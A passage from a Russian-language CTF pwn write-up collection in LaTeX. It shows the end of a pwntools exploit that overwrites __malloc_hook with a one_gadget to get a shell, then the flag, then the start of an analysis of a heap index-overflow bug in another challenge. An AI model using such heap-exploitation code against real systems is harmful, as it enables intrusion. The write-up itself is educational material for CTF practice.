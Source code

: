 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
\begin{lstlisting}[language=Python, caption=Куча кода]
    # Write one_gadget to __malloc_hook
    create_list() # idx 2
    add_anime(2, b"\x00" * 19 + p64(libc_base + one_shots[3]), 
    		b"kekw", 1337)
    print("[+] Write one_gadget successfully")

    # Invoke shell
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b": ", b"2")
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

И получаем флаг \verb|oren_ctf_PetitPotam!|




\textbf{Теги:} ELF 64 bit, C, Buffer overflow, heap\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

Таска опять является вариацией предыдущей. В этот раз произошли изменения, которые можно назвать как и усложнением, так и упрощением. Усложняется общее понимание бинаря, если впервые столкнуться со статически слинкованным, но упрощается эксплуатация. Но по сути все остается аналогично предыдущей задаче. Итак, перед нами опять достаточно стандартное меню, где опять можно создавать и удалять примитивы в виде арбалетов.
Разбирать все опять не будем, более того, так как похоже на предыдущую задачу сразу пеерйдем к сути.

Во-первых, в функции В функции \verb|sell_arbalest|, при добавлении нового арбалета (также как и в функции \verb|insert_in_list|) не проверяется выход за границы индекса 
\verb|g_list_index|. Это дает возможность переполнить глобальный буфер на куче и, таким образом, писать вниз .bss. Но писать мы можем только структуру, что немного усложняет задачу по сравнению с обычным переполнением.
\end{document}
